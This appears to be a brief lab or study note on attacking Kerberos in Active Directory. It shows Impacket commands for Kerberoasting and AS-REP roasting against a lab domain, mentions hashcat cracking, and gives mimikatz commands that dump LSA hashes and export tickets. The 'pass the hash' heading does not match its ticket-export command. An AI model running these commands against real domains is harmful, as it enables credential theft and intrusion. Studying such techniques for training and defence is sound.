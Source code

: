 ![image-20200812134704513](Attacking kerberos.assets/image-20200812134704513.png)



## Impacket

### GetUserSPNS

request for service ticket from domain controller for cracking

![image-20200812135039989](Attacking kerberos.assets/image-20200812135039989.png)



### GetNPUsers

Used when kerberos Pre Authentication is disabled

```
GetNPUsers.py controller.local/Machine1:Password1 -dc-ip controller.local -request
```

![image-20200812143055453](Attacking kerberos.assets/image-20200812143055453.png)



### hashcat

User3 Password was kerberoastable

![image-20200812144432322](Attacking kerberos.assets/image-20200812144432322.png)



## mimikatz

### hashDump

- dump NTLM hash of anyservice
- privilege are necessary

```
lsadump::lsa /inject /name:sqlservice
```

![image-20200812145256963](Attacking kerberos.assets/image-20200812145256963.png)



### pass the hash

it will dump all the hashes present inside the system

```
sekurlsa::tickets /export
```
